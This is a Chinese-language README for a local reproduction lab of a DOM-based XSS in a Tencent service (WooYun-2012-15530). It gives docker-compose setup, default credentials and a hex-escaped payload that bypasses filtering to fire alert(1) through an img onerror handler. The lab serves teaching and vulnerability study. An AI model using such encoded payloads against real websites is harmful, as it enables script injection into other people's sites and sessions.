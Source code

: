 # DOM型XSS，经典的编码解析问题

## 漏洞出处

WooYun-2012-15530

gainover发现的腾讯的DOM型XSS漏洞，本实例基于试图尽可能还原此漏洞的漏洞业务场景。


## 复现漏洞

运行测试环境：

```
docker-compose up -d
```

访问`http://your-ip:8000/`，

登录页面，输入用户名密码：

```
用户名：admin
密码：admin
```

![](01.png)

如图所示，简单的`<script>`并不能触发相应的xss漏洞

使用漏洞编码：

`\x22\x3E\x3cimg\x2fsrc\x3d1\x20onerror\x3d\x22alert(1)\x22`

可触发XSS

![](02.png)

![](03.png)





